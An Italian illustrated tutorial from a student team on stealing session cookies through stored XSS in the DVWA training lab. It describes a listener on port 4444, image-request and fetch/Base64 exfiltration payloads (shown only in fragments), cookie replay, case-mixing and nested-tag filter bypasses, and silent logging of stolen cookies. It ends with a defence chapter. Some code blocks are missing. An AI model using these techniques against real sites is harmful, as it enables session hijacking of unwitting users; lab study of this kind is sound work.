






Come si ruba una sessione senza sapere la password.
Una guida illustrata per capire, passo per passo, cosa succede quando un sito web si fida troppo di quello che scrivono gli utenti. Niente prerequisiti. Solo un bar con una bacheca e un biglietto magico.
Il caso studio:
Alice, Bob e la bacheca · DVWA · Metasploitable
Team - DIGITAL AVENGERS
Uso didattico · Solo lab autorizzati
Made By: Lorenzo Petrucci -
Christian Koscielniak Pinto -
Gabriele Chinnici -
Wafa Saghir -
Amy Antonella Acosta Hugo -
Domenico Mendola -
Corrado Vaccarecci
Capitolo 01
Cos'è un cookie. E perché è un braccialetto magico.
Quando apri un sito e fai login — che sia Instagram, la banca o la webmail del lavoro — il sito ti consegna un piccolo oggetto invisibile: il cookie di sessione. Non è niente di più di una stringa di caratteri salvata nel tuo browser.
Immagina il tuo sito preferito come un luna park. Quando entri, paghi il biglietto una volta (la password) e al polso ti mettono un braccialetto colorato. Da quel momento, ogni volta che salti da un'attrazione all'altra, mostri il braccialetto e ti fanno passare. Il cookie è quel braccialetto.
Tecnicamente è una riga così:
PHPSESSID=3h7k9abc2def4xyz; security=low
Il punto cruciale: il sito ti riconosce solo grazie a quel braccialetto. Non ti chiede la password ad ogni click. Il che porta a una conseguenza inquietante: chi ha il braccialetto è te. Anche se non ha mai saputo la tua password.
Rubare un cookie di sessione equivale a rubare l'identità online della vittima, per tutta la durata di quella sessione. Si chiama session hijacking — dirottamento di sessione.
Capitolo 02
La bacheca del bar e il biglietto magico.
Esistono siti web — forum, guestbook, sezioni commenti, profili social — dove gli utenti possono scrivere testi che verranno letti da tutti gli altri utenti. Sono una "bacheca pubblica".
Pensa a una bacheca di sughero nel bar sotto casa. Chiunque entra può appendere un biglietto. Chiunque passa lo può leggere. Finché i biglietti sono cose tipo "cerco coinquilino" o "vendo bici", tutto bene.
Ma cosa succede se qualcuno appende un biglietto che, quando lo leggi, ti fruga nelle tasche senza che tu te ne accorga?
Questo è esattamente quello che permette una vulnerabilità di tipo Cross-Site Scripting (XSS). Quando si chiama Stored (persistente), il "biglietto magico" viene salvato nel database del sito: rimane lì, e chiunque apra la pagina si becca l'attacco.
Nel nostro laboratorio la "bacheca" è il Guestbook di DVWA: una paginetta innocua dove ogni utente lascia nome e messaggio. Noi ci appenderemo un biglietto molto particolare.

Fig. 1 — Pagina XSS Stored di DVWA
Capitolo 03
Cos'è uno script. E perché il browser gli obbedisce.
Ogni pagina web è fatta di tre cose: HTML (la struttura, i paragrafi, i bottoni), CSS (i colori, i font) e JavaScript (le azioni: cosa succede quando clicchi un bottone, quando la pagina si carica, quando scrolli).
Il JavaScript viene scritto dentro un tag speciale, <script>. Quando il browser incontra quel tag, fa una cosa semplicissima: esegue il codice. Non si chiede chi l'ha scritto, non si chiede se è una buona idea. Esegue.
<script>alert("Ciao!");</script>
Il browser è come un maggiordomo iper-obbediente. Se sulla lettera dei comandi c'è scritto "porta il tè", porta il tè. Se c'è scritto "apri la cassaforte e manda il contenuto a questo indirizzo", lo fa senza batter ciglio — a patto che la lettera sia sulla carta intestata giusta (cioè dentro un tag <script>).
Il trucco dell'XSS è proprio questo: noi scriviamo il biglietto sulla bacheca in modo che contenga un tag <script>. Quando un altro utente apre la pagina, il suo browser — che non ha modo di distinguere tra codice legittimo del sito e codice iniettato da un attaccante — esegue quello script con i pieni poteri dell'utente.
La regola generale: se un sito lascia passare i tag HTML/JS scritti dagli utenti senza filtrarli, è come un bar che lascia chiunque cambiare la ricetta del caffè. Prima o poi qualcuno ci mette dentro del veleno.
Capitolo 04
La cassetta postale di Bob: il listener sulla porta 4444.
Prima di appendere il biglietto magico, Bob deve preparare un posto dove far arrivare la refurtiva. Il biglietto farà partire una richiesta verso un indirizzo di rete: quell'indirizzo deve essere pronto a ricevere.
Il biglietto magico è come un messaggero che corre verso un indirizzo specifico. Se all'arrivo non c'è nessuno a prendere la busta, il messaggero torna indietro e il colpo è fallito. Bob deve essere fisicamente presente alla cassetta postale, in ascolto.
Nel nostro caso Bob è sulla Kali, IP 192.168.104.100, e decide di ricevere le "lettere" sulla porta 4444. Scrive un piccolo programma in Python che apre quella porta, ascolta tutto quello che arriva e lo stampa pulito a video, salvando i dati anche su file.
Da questo momento, qualunque richiesta HTTP arrivi a 192.168.104.100:4444 verrà catturata, registrata e mostrata sullo schermo di Bob. La cassetta postale è aperta.

Fig. 1 — Listener Flask attivo sulla Kali
Scegliere la porta 4444 non è un caso: è una porta "alta" (non privilegiata), comunemente usata nei lab didattici per ricevitori di reverse-shell, beacon e in generale qualsiasi callback da un target compromesso. È una convenzione che ritroverai ovunque in CTF e corsi di offensive security.
Capitolo 05
Il primo biglietto: new Image().
Bob apre DVWA, fa login, imposta Security Level = low e va nella pagina XSS (Stored). Nel campo Message del guestbook scrive questo:
Script inline che, quando eseguito, legge i cookie della pagina corrente e li invia al listener di Bob come query-string di una finta richiesta immagine.
Sembrano geroglifici. In realtà è una sequenza di 3 passaggi semplicissimi.
1
new Image() — "crea un'immagine in memoria"
È come disegnare una cornice vuota in testa, senza metterla al muro. Il browser prepara un oggetto immagine ma non lo mostra ancora da nessuna parte. Finché non gli diciamo quale immagine caricare, quell'oggetto è inerte.
2
.src = '...' — "l'immagine si trova qui"
Appena assegniamo un indirizzo alla proprietà src, il browser parte subito per andarla a prendere. Questa è la chiave di tutto: al browser non importa se l'indirizzo punta davvero a un'immagine. Fa comunque la richiesta HTTP. Se non trova un'immagine, pazienza — la richiesta è già partita.
3
'...?c=' + document.cookie — "allega il braccialetto"
Concateniamo all'URL di destinazione il valore di document.cookie, cioè la stringa completa dei cookie della pagina corrente. Risultato: il browser della vittima fa una richiesta del tipo GET /?c=PHPSESSID=xyz789... verso il listener di Bob. Che, ricordiamolo, sta aspettando esattamente questo.
È come se il biglietto magico facesse partire un piccione viaggiatore con, legato alla zampa, una copia del braccialetto di chi sta leggendo. Il piccione vola dritto alla cassetta postale di Bob.
Perché funziona? Per due motivi, entrambi "difetti di nascita" del web:
1. La Same-Origin Policy blocca la lettura delle risposte cross-origin, non l'invio di richieste. Un <img> può puntare ovunque.
2. Il cookie PHPSESSID di DVWA non ha il flag HttpOnly, quindi JavaScript lo vede. Se lo avesse, document.cookie non lo leggerebbe.

Fig. 3A — Payload iniettato nel form Guestbook

Fig. 3B — Payload intercettato dallo scripter
Capitolo 06
Il secondo biglietto, più raffinato: fetch + btoa.
Il primo biglietto funziona, ma ha un difetto estetico: il cookie viaggia nell'URL in chiaro, con tutti i suoi caratteri speciali (punti e virgola, uguali, spazi). Questi caratteri, se il cookie è complicato, possono rompere l'URL o finire nei log di qualche proxy intermedio con un formato brutto da leggere.
Bob allora prepara una seconda versione, più elegante:
Usa l'API fetch al posto del vecchio trucco dell'immagine, e codifica il cookie in Base64 prima di inviarlo — più pulito, meno rumoroso nei log.
Le due novità
Token
Cosa fa
Perché è meglio di prima
fetch(url)
API moderna per fare richieste HTTP da JavaScript
Più leggibile, standard contemporaneo, accetta opzioni avanzate (POST, header custom)
btoa(str)
Binary-to-ASCII: codifica la stringa in Base64
Il cookie diventa una stringa di sole lettere, numeri e pochi simboli: zero rischio di rompere l'URL
È come impacchettare il braccialetto in una busta cifrata prima di darla al piccione. All'arrivo, Bob apre la busta e legge il contenuto. Il piccione intanto ha volato più tranquillo, senza perdere pezzi lungo la strada.
Ecco come appaiono i due formati nella cassetta postale di Bob, affiancati:
GET /?c=security=low; PHPSESSID=3h7k9abc2def4xyz
^ in chiaro, dal payload #1
GET /?cookie=c2VjdXJpdHk9bG93OyBQSFBTRVNTSUQ9M2g3azlhYmMyZGVmNHh5eg==
^ base64, dal payload #2
Per decodificare la versione base64 basta una riga di terminale:
Il nostro listener Flask fa la decodifica automaticamente e salva sia la forma codificata sia quella in chiaro nel log. base64 -d resta una tecnica utile da conoscere per qualsiasi contesto in cui ti trovi davanti a una stringa sospetta e vuoi capire se c'è dentro qualcosa di leggibile.
Capitolo 07
Alice entra nel bar e legge la bacheca.
Bob ha il listener acceso, ha appeso il biglietto. Ora basta aspettare. La trappola è innescata e in attesa di una vittima.
Entra in scena Alice. Alice è un'utente normale di DVWA: ha una sua password, le sue abitudini, non sa niente di Bob. Si collega, fa login con le sue credenziali (nel nostro lab: gordonb / abc123), e per curiosità apre il guestbook per vedere cosa scrivono gli altri.
Bob (Kali 192.168.104.100)DVWA (Metasploitable 150)Alice (victim browser)
| | |
| [1] inietta <script> nel guestbook | |
| ──────────────────────────────────▶ | |
| | [2] salva payload in DB MySQL |
| | |
| | [3] Alice apre la pagina |
| | ◀──────────────────────────────|
| | [4] risponde con HTML |
| | (payload incluso nella pagina) |
| | ──────────────────────────────▶|
| | |
| | [5] browser esegue lo script
| | → fa GET /?c=... |
| [6] listener riceve il cookie | |
| ◀──────────────────────────────────────────────────────────────────────────|
| | |
| [7] Bob ha il PHPSESSID di Alice | |
Alice non clicca niente di strano. Non scarica niente. Non inserisce la password una seconda volta. Basta che apra la pagina del guestbook. Il suo browser incontra il tag <script> nel messaggio di Bob e, da bravo maggiordomo obbediente, lo esegue.
Sullo schermo del listener di Bob appare questo:
cookie_catcher.py — Kali Terminal
╔══════════ 🍪 COOKIE STOLEN ══════════╗Timestamp : 2026-04-20T14:32:15+00:00
Client IP : 192.168.104.150
User-Agent : Mozilla/5.0 (X11; Linux x86_64) Firefox/128.0
Referer : http://192.168.104.150/dvwa/vulnerabilities/xss_s/
Method : GET /
Payload : Image()/raw
Cookie RAW : security=low; PHPSESSID=3h7k9abc2def4xyz
Cookie DEC : security=low; PHPSESSID=3h7k9abc2def4xyz
╚═══════════════════════════════════════╝
Fig. 4 — Listener che riceve il primo cookie
Capitolo 08
Bob diventa Alice. Senza sapere la sua password.
Adesso Bob ha nelle mani il PHPSESSID di Alice. Il braccialetto. Gli basta indossarlo e il sito lo scambierà per lei.
Apre il suo browser (anche in una sessione incognito per non sovrascrivere la sua sessione reale), va sul dominio di DVWA, apre gli strumenti per sviluppatori con F12 e sostituisce il proprio cookie con quello appena rubato.
1
Apre la scheda Storage → Cookies
Nella sezione dedicata ai cookie del dominio DVWA vede il proprio PHPSESSID.
2
Click sul valore, incolla quello di Alice
Sostituisce il valore attuale con 3h7k9abc2def4xyz. Enter per confermare.
3
Ricarica la pagina
La dashboard DVWA lo saluta come gordonb. Bob è ufficialmente dentro l'account di Alice. Può leggere i suoi messaggi, modificare le sue impostazioni, eseguire azioni al posto suo.
Questa tecnica è classificata nel framework MITRE ATT&CK come T1539 — Steal Web Session Cookie. È una delle tecniche di credential access più efficaci perché bypassa completamente meccanismi come l'autenticazione a più fattori (MFA): una volta che la sessione è stata aperta dalla vittima, il cookie la identifica senza richiedere nuovi fattori.
Capitolo 09
Livello medio: il buttafuori un po' distratto.
Al livello Medium, gli sviluppatori di DVWA hanno capito che c'è un problema e hanno messo qualche difesa. Guardiamo cosa succede nel codice sorgente (DVWA stesso ci permette di vederlo con il pulsante View Source):
Il campo message è ora ben protetto. Ha tre filtri in fila: rimuove tutti i tag HTML (strip_tags), escapa i caratteri speciali per il database, e riconverte tutto in entità HTML sicure (htmlspecialchars). Dentro message il nostro payload non passerebbe mai.
Il campo name, invece, ha una sola "difesa": rimuove la sottostringa esatta <script>. Solo quella. In minuscolo. Una volta sola.
È come un buttafuori che ha ricevuto l'ordine di non far entrare chi si presenta con il nome "Script" scritto esattamente così, tutto in minuscolo. Chiunque scriva "SCRIPT", "Script" o "ScRiPt" passa senza problemi. Un filtro che controlla la forma esatta e non la sostanza è un filtro inutile.
Nel mondo reale, i filtri basati su blacklist di stringhe specifiche (str_replace, regex semplici, liste "nere" di parole proibite) sono una categoria di difesa notoriamente debole. Ne esistono decine di bypass documentati. La regola è: sempre whitelist, mai blacklist.
Capitolo 10
Il trucco del CaMeLcAsE.
C'è un dettaglio tecnico che cambia tutto. L'HTML è case-insensitive sui nomi dei tag: per il browser, <SCRIPT>, <Script>, <ScRiPt> e <script> sono esattamente la stessa cosa. Tutte e quattro le scritture producono un tag script valido ed eseguibile.
Il filtro PHP, però, è case-sensitive: cerca la stringa esatta <script> in minuscolo e rimuove solo quella.
Mescolando maiuscole e minuscole nel tag, inganniamo il filtro ma non inganniamo il browser. Il filtro non vede nulla da rimuovere. Il browser, qualche millisecondo dopo, esegue il tag con grande naturalezza.
Il payload bypass è quasi identico a quello del livello LOW, cambia solo la grafia del tag:
Stessa logica del payload LOW, ma va nel campo Name (dove il filtro è debole) invece che in Message (dove è robusto), e il tag è in CaMeLcAsE per aggirare str_replace.
Piccolo ostacolo: il maxlength
Il campo Name nel form HTML ha un attributo maxlength="10": il browser ti impedisce di scriverci più di 10 caratteri. Il nostro payload ne è lungo 115.
Ma maxlength è un vincolo solo lato client. Il server non ne sa nulla e accetta input di qualsiasi lunghezza. Possiamo quindi modificare l'HTML del form al volo con gli strumenti per sviluppatori:
F12
Apri DevTools → Inspector
Individua il campo <input name="txtName"> nell'HTML della pagina.
✏️
Tasto destro → Edit as HTML
Cambia maxlength="10" in maxlength="500" e conferma con Enter.
✓
Incolla il payload lungo e invia
Il form ora accetta il testo senza troncare. Il server lo riceve, il filtro non trova <script> esatto da rimuovere, il payload viene salvato integro. Alice, appena apre la pagina, consegna nuovamente il cookie a Bob.

Fig. 5 — DevTools: bypass del maxlength + payload CaMeLcAsE
Un secondo bypass, per eleganza: recursion
Esiste un modo ancora più astuto. La funzione str_replace fa una sola passata, non ricorsiva. Se il filtro incontra <script>, lo cancella e va avanti — non torna indietro a controllare se la cancellazione ha creato un nuovo<script> dal testo residuo. Possiamo sfruttare questa svista:
Dopo che il filtro rimuove il <script> centrale, quello che rimane è... <script>. Il pattern si auto-ricompone a valle del filtro, come un origami che si piega da solo.
Capitolo 11
Cosa abbiamo catturato: il dump completo.
Il listener Flask non è un semplice "eco" della porta: ogni richiesta viene analizzata, arricchita e archiviata. Per ogni vittima registriamo:
Campo
Dove viene preso
A cosa serve
timestamp_utc
Orologio del server
Ricostruire la timeline dell'attacco
client_ip
request.remote_addr
Identificare la vittima sulla rete lab
user_agent
Header HTTP User-Agent
Capire browser e sistema operativo
referer
Header HTTP Referer
Verificare da quale pagina è partita la richiesta
cookie_raw
Query-string (?c= o ?cookie=)
Il valore "sporco" così come arrivato
cookie_decoded
Decodifica Base64 automatica
Il valore leggibile, pronto per l'uso
payload_type
Euristica sul nome del parametro
Distinguere i due payload (Image vs fetch)
Tutto viene scritto in tre posti contemporaneamente: la console (per l'operatore che sta guardando in diretta), un file stolen_cookies.jsonl (una riga JSON per evento, ottimo per tool di analisi automatica), un file stolen_cookies.csv (pronto da aprire in Excel per il report).
Il listener risponde con una GIF trasparente 1×1 pixel. Serve per un motivo sottile: se il payload è new Image().src = ..., il browser si aspetta un'immagine in risposta. Rispondendo con una gif valida, evitiamo errori nella console JavaScript della vittima — l'attacco resta silenzioso e non attira l'attenzione di utenti tecnicamente curiosi.

Fig. 6 — File stolen_cookies.csv con 2-3 righe di cookie catturati, colonne timestamp, IP, UA, cookie visibili
Capitolo 12
Come difendersi. Davvero.
DVWA al livello LOW non ha nessuna difesa, al livello MEDIUM ne ha una che non serve a niente. Nel mondo reale, proteggere una web application da XSS richiede una strategia a livelli multipli. Vediamole in ordine di efficacia.
1. Output encoding contestuale
La vera difesa non è filtrare l'input — è codificare l'output nel momento in cui lo rimetti nella pagina. Se un utente scrive <script>, il server lo salva così com'è; ma quando lo rimostra a qualcun altro, lo trasforma in <script>. Il browser vede testo, non codice.
Questa singola funzione, usata coerentemente in ogni punto in cui si emette contenuto utente, rende quasi tutti gli XSS impossibili.
2. Cookie con flag HttpOnly
È una singola riga di configurazione che rende invisibile il cookie a JavaScript. Anche se un XSS riesce a eseguirsi, document.cookie tornerà vuoto per i cookie HttpOnly. Il braccialetto c'è ma è coperto dalla manica.
DVWA non usa HttpOnly di proposito, per scopi didattici. Qualsiasi applicazione in produzione che salvi la sessione in un cookie deve avere questo flag attivo. Non è negoziabile.
3. Content Security Policy (CSP)
È un header HTTP che dice al browser: "esegui script solo da questi domini, non da altri, e non da tag inline". È un secondo livello di difesa: se un XSS passa il primo strato, la CSP impedisce al browser di eseguire il codice iniettato perché non proviene da un'origine consentita.
Se il campo è "nome utente", non serve accettare < o >. Se è "età", deve essere solo un numero. Validare il tipo atteso ferma il 90% degli attacchi prima ancora che si arrivi al filtro.
5. Web Application Firewall (WAF)
Un WAF riconosce pattern tipici (<script>, javascript:, onerror=) e blocca le richieste a monte. Non è una soluzione definitiva (abbiamo appena visto quanti bypass esistono per i filtri più semplici) ma aggiunge uno strato di frizione utile.
La sicurezza di una web application non è mai una singola barriera. È una serie di porte, ognuna un po' più difficile dell'altra. Se una cade, le altre reggono abbastanza a lungo da dare tempo al team di rilevare l'attacco e reagire.
Fine del secondo colpo.
Hai appena seguito, dall'inizio alla fine, il secondo attacco più comune della storia del web. L'XSS è nella OWASP Top 10 dal 2003 e — pur avendo cambiato nome e categoria negli anni — continua a essere tra le vulnerabilità più frequentemente sfruttate in produzione.
Il meccanismo è semplice, la difesa è semplice, eppure si continuano a vedere applicazioni bucate. Il motivo? Basta dimenticarsi di htmlspecialchars in una sola pagina di un'applicazione da mille pagine.
Conoscere l'attacco ti rende un difensore più attento. Ogni volta che scriverai codice che riflette contenuto utente in una pagina, ricorderai cosa può succedere se non lo codifichi.